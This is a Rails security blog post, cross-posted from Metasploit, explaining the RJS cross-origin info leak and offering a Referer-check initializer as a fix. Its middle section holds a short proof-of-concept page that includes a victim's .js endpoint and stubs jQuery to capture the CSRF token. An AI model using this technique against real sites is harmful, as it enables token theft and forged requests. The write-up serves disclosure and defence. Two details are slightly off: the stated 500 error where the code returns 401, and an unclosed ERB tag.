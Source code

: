 ```yaml
---
layout: post
title: "Exploiting (and Fixing) RJS Rails Info Leaks"
---
```


(Note: this is a cross-post of an article I wrote for Metasploit's blog. The original post can be found [here](https://community.rapid7.com/community/metasploit/blog/2013/12/29/remote-js--an-insecure-pattern-in-rails-code).)

Several weeks ago, [Egor Homakov](http://homakov.blogspot.com/2013/11/rjs-leaking-vulnerability-in-multiple.html) wrote a blog post pointing out a common info leak vulnerability in many Rails apps that utilize Remote JavaScript. The attack vector and implications can be hard to wrap your head around, so in this post I'll explain how the vulnerability occurs and how to exploit it.

#### What is Remote Javascript?

Remote JavaScript (RJS) was a pattern prescribed by Rails < 2 to implement dynamic web sites. In RJS the user-facing parts of a website (HTML and JS) act as a "dumb client" for the server: when dynamic action is needed, the client calls a JavaScript helper that sends a request to the server. The server then performs the necessary logic and generates and responds with JavaScript code, which is sent back to the client and `eval()`'d.

The RJS approach has some advantages, as rails creator dhh points out in a [recent blog post](http://37signals.com/svn/posts/3697-server-generated-javascript-responses). However, suffice it to say that RJS breaks down as soon as you need complex client-side code, and a server API that responds with UI-dependent JavaScript is not very reusable. So Rails mostly has moved away from the RJS approach (JSON APIs and client-heavy stacks are the new direction), but still supports RJS out of the box.

#### So what's the problem?

Unfortunately, RJS is insecure by default. Imagine a developer on a Rails app that uses RJS is asked to make an Ajax-based login pop-up page. Following the RJS pattern, the developer would write some JavaScript that, when the "Login" link is clicked, asks the remote server what to do. The developer would add a controller action to the Rails app that responds with the JavaScript required to show the login form:

<pre><code class="ruby">class Dashboard
  def login_form
    respond_to do |format|
      format.js do
        render :partial => 'show_login_form'
      end
    end
  end
end</code></pre>

Following the RJS pattern, the `show_login_form.js.erb` partial returns some JavaScript code to update the login form container:

<pre><code class="javascript">$("#login").show().html("<%= escape_javascript(render :partial => 'login/form')")</code></pre>

Which, when rendered, produces code such as:

<pre><code class="javascript">$(&quot;#login&quot;).show().html(&quot;
  &lt;form action='/login' method='POST'&gt;
  &lt;input type='hidden' name='auth_token' value='XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX'&gt;
  &lt;table&gt;
      &lt;tr&gt;
          &lt;td&gt;Name&lt;/td&gt;
          &lt;td&gt;&lt;input type='text'&gt;&lt;/td&gt;
      &lt;/tr&gt;
      &lt;tr&gt;
          &lt;td&gt;Password&lt;/td&gt;
          &lt;td&gt;&lt;input type='password'&gt;&lt;/td&gt;
      &lt;/tr&gt;
  &lt;/table&gt;
&lt;/input&gt;&quot;)</code></pre>

Now imagine user Tom is logged into the Rails app (which we'll say is served from railsapp.com). An unrelated website attacker.com might serve Tom the following code:

<pre><code class="html">&lt;html&gt;
  &lt;body&gt;
    &lt;script src='https://railsapp.com/dashboard/login.js'&gt;&lt;/script&gt;
  &lt;/body&gt;
&lt;/html&gt;</code></pre>

Because `<script>` tags are allowed to be cross-origin (this is useful for CDNs), Tom's browser happily sends a `GET` request to railsapp.com, attaching his railsapp.com cookie. The RJS script is generated and returned to Tom, and his browser executes it. By stubbing out the necessary functions in the global scope, attacker.com can easily gain access to the string of HTML that is sent back:

<pre><code class="html">&lt;html&gt;
  &lt;body&gt;
    &lt;script&gt;
      function $() {
        return {
          show: function() {
            return {
              html: function(str) {
                alert(str);
              }
            };
          }
        };
      }
    &lt;/script&gt;
    &lt;script src='http://railsapp.com/dashboard/login.js'&gt;&lt;/script&gt;
  &lt;/body&gt;
&lt;/html&gt;</code></pre>

And now attacker.com can easily parse out Tom's CSRF auth token and start issuing malicious CSRF requests to railsapp.com. This means that attacker.com can submit any form in railsapp.com. The same technique can be used to leak other information besides auth token, including logged-in status, account name, etc.

#### As a pentester, how can I spot this bug while auditing a web app?

It is pretty easy to find this vulnerability. Click around a while in the web app and keep Web Inspector's Network tab open. Look for .js requests sent sometime after a page load. Any response to a .js request that includes private info (auth token, user ID, existence of a login session) can be "hijacked" using an exploit similar to the above PoC.

#### How can I fix this in my web app?

The fix prescribed by Rails is to go through your code and add request.xhr? checks to every controller action that uses RJS. This is annoying, and is a big pain if you have a large existing code base that needs patching. Since Metasploit Pro was affected by the vulnerability, we needed a patch quick. So I present our solution to the vulnerability - we now check all .js requests to ensure that the REFERER header is present and correct. The only downside here is that your app will break for users behind proxies that strip referers. Additionally, this patch will not work for you if you plan on serving cross-domain JavaScript (e.g. for a hosted JavaScript SDK). If you can stomach that sacrifice, here is a Rails initializer that fixes the security hole. Drop it in `ui/config/initializers` of your Rails app:

<pre><code class="ruby"># This patch adds a before_filter to all controllers that prevents xdomain
# .js requests from being rendered successfully.

module RemoteJavascriptRefererCheck
  extend ActiveSupport::Concern

  included do
    require 'uri'
    before_filter :check_rjs_referer, :if => ->(controller) { controller.request.format.js? }
  end

  # prevent generated rjs scripts from being exfiltrated by remote sites
  # see http://homakov.blogspot.com/2013/11/rjs-leaking-vulnerability-in-multiple.html
  def check_rjs_referer
    referer_uri = begin
      URI.parse(request.env["HTTP_REFERER"])
    rescue URI::InvalidURIError
      nil
    end

    # if request comes from a cross domain document
    if referer_uri.blank? or
      (request.host.present? and referer_uri.host != request.host) or
      (request.port.present? and referer_uri.port != request.port)

      head :unauthorized
    end
  end
end

# shove the check into the base controller so it gets hit on every route
ApplicationController.class_eval do
  include RemoteJavascriptRefererCheck
end</code></pre>

And your server will now return a 500 error to any RJS request that does not contain the correct REFERER. A gist is available [here](https://gist.github.com/jvennix-r7/8151392), just download and place in $RAILS_ROOT/config/initializers.